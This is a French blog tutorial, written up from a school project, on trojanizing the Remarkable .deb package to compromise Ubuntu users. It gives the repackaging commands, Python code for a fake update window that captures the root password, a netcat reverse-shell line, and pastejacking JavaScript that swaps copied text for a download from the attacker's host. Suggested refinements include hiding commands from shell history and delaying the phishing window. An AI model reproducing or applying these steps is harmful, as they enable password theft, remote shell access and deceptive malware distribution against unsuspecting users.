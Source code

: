 ```yaml
---
title: Modification d'une archive .deb
layout: post
description: "Modification d'une archive .deb"
image: "/jekyllblog/img/Remarkable/remarkable.png"
category: 'tutorial'
tags:
- Linux
- security

twitter_text: "Modification d'une archive .deb et problématique de sécurité"
introduction: "Comment faire pour modifier une archive deb afin de construire une application installable sous Linux afin d'obtenir un accès à distance ?"
---
```


> Testé en septembre 2018, avec deux machines Ubuntu

# Présentation de l'attaque et contexte.

Cette article est une remise en forme du descriptif d'une attaque que j'avais du faire dans un projet scolaire.

L'idée de cette attaque est de montrer les risques encourus lors de l'installation non vérifiée. Le but de cet article est simplement de démontrer qu'il est possible d'installer une *backdoor* sur un ordinateur distant en modifiant l'archive d'installation d'un logiciel permettant d'écrire du markdown.

Le schéma de l'attaque est le suivant : article est présent sur un blog qui semble être tout à fait anodin. La victime reçoit un mail pour présenter une application.
Voici un exemple de mail, fait par un "ami" de la victime ou alors par l'attaquant rédigeant un faux mail s'il y a eu du *social ingeniering*.


***

Hey salut, on a parlé de Remarkable à la pause, le truc pour faire du Markdown j'ai trouvé un super [site](/)  qui explique comment l'installer!

A plus,
Un ami qui vous veut du bien

***

La victime se rend sur le site, suit les instructions et si elle n'est pas prudente son ordinateur devient vulnérable.

# Point de vue de la victime

La victime se rend sur l'adresse mentionnée. Elle copie colle la commande d'installation dans son terminal. Puis dans la fenêtre qui s'ouvre, elle double clique pour lancer l'installation. L'installation se fait. Au premier démarrage comme mentionné sur le site, une fenêtre de mise à jour apparaît. L'utilisateur rentre son mot de passe qui est envoyé à l'attaquant. Aux démarrages suivants, un shell utilisateur est récupéré sur la machine distante.

![Fenêtre de mise à jour](/jekyllblog/img/Remarkable/auth.png)

# Point de vue de l'attaquant

Du point de vue de l'attaquant celui-ci reçoit le mot de passe *root* lors de la première connexion. Lors des prochaines ouvertures de l'application il recevra seulement un shell sur la machine inféctée.

Il a juste à lancer la commande :

```bash
nc -lvp 1234
```

# Application vulnérable

On choisit de s'attaquer à Remarkable car les sources sont disponibles et facilement modifiables car en Python. On modifie l'archive *.deb* ce qui permet de donner pour l’utilisateur une certaine forme de légitimité à l'application puisqu'il la voit s'installer graphiquement.

Pour modifier les sources, on s'y prend ainsi :
```bash
#on crée deux répertoires pour accueillir la structure de l'archive
mkdir -p newpack oldpack/DEBIAN

#On extrait l'archive
dpkg-deb -x remarkable.deb oldpack/

#On extrait les informations de contrôsle
dpkg-deb -e remarkable.deb oldpack/DEBIAN

#On modifie ce que l'on veut modifier dans l'archive avant de la recréer
dpkg-deb -Z xz -b oldpack/ newpack/
```

Passons maintenant à la modification du code source :
On s'intéresse particulièrement à */usr/lib/python3/dist-packages/remarkable/RemarkableWindow.py*, on modifie l'initialisation de la fenêtre principale.
Ci dessous sont explicités les différentes actions clefs effectuées.

```python
# On récupère la bonne image pour la fenêtre graphique ce qui rend le script adaptable pour différentes distributions
image = Gtk.Image.new_from_icon_name(
                "gtk-dialog-authentication",
                Gtk.IconSize.DIALOG
                )
#On rend légitime l'apparition de la fenêtre de mise à jour.
self.label1.set_text("Pour son premier démarrage, Remarkable tente d'effectuer une action qui nécessite des privilèges (mise à jour, installation de paquets manquants..)\nPour effectuer cette action, il est nécessaire de s'authentifier.")

#si /tmp/f existe on ne redemande pas le mot de passe mais on ouvre quand même un reverse shell.
if not os.path.exists("/tmp/f"):
    test = LabelWindow()        
    test.connect("delete-event", Gtk.main_quit)
    test.show_all()
    Gtk.main()
else:
    os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip_de_l'attaquant 1234 >/tmp/f &")
```


### La vitrine : le blog

On fait tourner sur l'ordinateur de l'attaquant un serveur. Ici le serveur intégré à PHP.

```bash
php -S 192.168.1.21:80
```

Ce serveur héberge, l'article de blog et les sources corrompues. Un petit script en javascript permet de modifier le texte copié dans la zone du texte pour l'installation. Les sources sont donc récupérées sur la machine de l'attaquant et non sur le site officiel de [Remarkable](https://remarkableapp.github.io/linux.html).

```html
<script>
document.addEventListener('copy', function(e) {
	e.clipboardData.setData('text/plain', ' wget 192.168.1.21/remarkable_1.87_all.deb & nautilus . & exit\n');
	e.preventDefault();
});
</script>
```

## Améliorations possibles


### Paste jacking

Le désavantage de la méthode est que l'on ferme la fenêtre du terminal, ce qui peut paraître bizarre.
On utilise aussi *nautilus* qui est une commande pour Ubuntu.

Voici quelques idées :

- Faire un paste-jacking plus personnalisé, par exemple en fonction de l'userAgent de l'utilisateur:
```js
if ( navigator.userAgent.search(/Ubuntu/)>0){
  e.clipboardData.setData('text/plain', ' wget 192.168.1.21/remarkable_1.87_all.deb & nautilus . & exit\n');
  e.preventDefault();
}else if (navigator.userAgent.search(/Debian/)>0) {
  e.clipboardData.setData('text/plain', 'other string');
  e.preventDefault();
}
```
- Utilisation de **xdg-open .** qui fonctionne sur plusieurs OS.
- Télécharger les sources légitimes, puis les illégitimes pour garder la "bonne commande" dans l'historique. Puis ouvrir l'installeur d'application avec **gnome-software --local-filename=remarkable_1.87_all.deb**
```js
  e.clipboardData.setData('text/plain', 'wget -N https://remarkableapp.github.io/files/remarkable_1.87_all.deb \n wget -N 192.168.1.21/remarkable_1.87_all.deb && clear & gnome-software --local-filename=remarkable_1.87_all.deb\n');
```

> On remarquera dans le premier exemple l'usage de **navigator.userAgent.search(/patern/)**.
>
> Dans le deuxième exemple la présence d'un espace avant la deuxième commande **wget** ce qui a pour effet de ne pas laisser la commande dans l'historique du shell.

### Fenêtre de mise à jour

Plusieurs améliorations sont envisageables :

- La fenêtre est faite avec *Gtk*, on peut envisager de la faire avec *dbus* pour avoir la "vraie" fenêtre.
- On peut modifier le texte pour prétexter une mise à jour système mais ne pas faire apparaître la fenêtre immédiatement. En utilisant la fonction *sleep*
```python
os.system("sleep 300 && python3 maFenetreDeMaj.py")
```
- On peut aussi selon le but de l'attaque envisager la suppression de la fenêtre de mise à jour. On ne récupère pas le mot de passe *root* mais si le but est de faire de l’exfiltration de données cela n'est peut-être pas nécessaire et sera plus discret.

### Traces

Regardons les traces :
Lors de l'exécution de *pstree*, on ne voit pas que c'est *Remarkable* qui lance *nc*. Cependant *nc* est tout de même visible. Dans l'idée l'attaque ne doit pas être indécelable une fois présente mais c'est sa mise en place qui doit l'être. En effet, les sources de l'application reste sur la machine. La persistance est interne à l'application. On pourrait imaginer une autre attaque ou le lancement de l'application met en place une persistance par le biais de *crontab* ou de *.bashrc* . Mais l'attaque serait alors toute autre.
